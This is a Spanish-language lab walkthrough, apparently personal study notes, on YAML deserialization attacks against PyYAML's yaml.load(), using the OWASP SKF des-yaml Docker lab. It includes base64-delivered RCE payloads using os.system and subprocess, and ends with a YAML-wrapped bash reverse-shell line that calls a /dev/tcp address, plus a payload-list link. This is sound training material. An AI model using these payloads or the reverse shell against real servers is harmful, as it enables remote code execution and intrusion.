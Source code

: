 ------
- Tags: #deserializacion #ataque
----
# Definición

> Un **Ataque de Deserialización Yaml** (**DES-Yaml**) es un tipo de vulnerabilidad que puede ocurrir en aplicaciones Python que usan **YAML** (**Yet Another Markup Language**) para serializar y deserializar objetos.

**PyYAML** es una biblioteca en Python que permite trabajar con archivos YAML, proporcionando funciones para serializar (guardar) y deserializar (cargar) datos en formato YAML. PyYAML convierte datos YAML en estructuras de datos de Python, como diccionarios, listas y otros tipos, y también permite generar archivos YAML a partir de objetos Python.

La vulnerabilidad se produce cuando un atacante es capaz de controlar la entrada YAML que se pasa a una función de deserialización en la aplicación. Si el código de la aplicación no valida adecuadamente la entrada YAML, puede permitir que un atacante inyecte código malicioso en el objeto deserializado.

Una vez que el objeto ha sido deserializado, el código malicioso puede ser ejecutado en el contexto de la aplicación, lo que puede permitir al atacante tomar el control del sistema, acceder a datos sensibles, o incluso ejecutar código remoto.

Los atacantes pueden aprovecharse de las vulnerabilidades de DES-Yaml para realizar ataques de denegación de servicio (DoS), inyectar código malicioso, o incluso tomar el control completo del sistema.

El impacto de un Ataque de Deserialización Yaml depende del tipo y la sensibilidad de los datos que se puedan obtener, pero puede ser muy grave. Por lo tanto, es importante que los desarrolladores de aplicaciones Python validen y filtren adecuadamente la entrada YAML que se pasa a las funciones de deserialización, y que utilicen técnicas de seguridad como la limitación de recursos para prevenir ataques DoS y la desactivación de la deserialización automática de objetos no confiables.

-----
# Explotación de DES-Yaml en laboratorio

Utilizaremos el laboratorio de **skf-labs** de Github

- ``docker pull blabla1337/owasp-skf-lab:des-yaml``
- ``docker run -dit -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-yaml``

-------

La web como tal se vería de esta manera, pero particularmente lo que mas nos llama la atención es la cadena que aparece en la **URL**, la cual por su estructura parece ser **Base64**

![[yaml 1.png]]

Si lo decodificamos veríamos esto

![[yaml 2.png]]

Esa primera cadena que dice ``yaml:`` es el formato que suelen poseer los archivos **Yaml**.

------

Si nos metemos dentro del contenedor y hacemos un ``cat`` del archivo **DES.py**, veremos una sección particular donde podemos identificar **la falta de sanitización**.

![[yaml 3.png]]

El principal problema es el uso de la función `yaml.load()` sin restricciones, ya que carga cualquier contenido YAML sin validación, lo que puede permitir a un atacante inyectar código malicioso.

La función `yaml.load()` de la librería PyYAML carga y deserializa el contenido de un archivo YAML en objetos Python. Si el atacante envía una entrada YAML maliciosa, puede desencadenar la ejecución de código arbitrario en el servidor.
Por ejemplo, un atacante podría enviar un payload que use la capacidad de YAML de ejecutar objetos Python como `!!python/object/apply:os.system`, permitiendo **ejecutar comandos del sistema**.

- `!!python/object/apply:os.system ["ls"]`

Para evitar la ejecución de código malicioso, es preferible usar `yaml.safe_load()` en lugar de `yaml.load()`. La función `safe_load()` deserializa datos YAML **sin permitir la creación de objetos arbitrario**s, lo que reduce la superficie de ataque.

------

Por lo tanto como se está empleando una mala sanitización, podríamos colocar una **cadena maliciosa**, para esto nos apoyaremos del [foro](https://www.pkmurphy.com.au/isityaml/) de **Peter Murphy**

- ``yaml: !!python/object/apply:subprocess.check_output ['ls']``

Esta cadena debemos guardarla en un archivo, para luego codificarla en **Base64**, ya que recordemos que estos objetos serializados viajan en formato B64.

![[yaml 4.png]]

Ahora coloquemos esta cadena en la web para que **nos la interprete** y tener la respuesta del comando ``ls``

![[yaml 5.png]]

De esta manera habríamos efectuado el **Deserialization Attack Yaml**.

Aportes para multitud de comandos extra como una **Reverse Shell**:

- ``yaml: !!python/object/apply:os.system ["bash -c 'bash -i >& /dev/tcp/192.168.0.194/443 0>&1'"]``

 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/YAML.md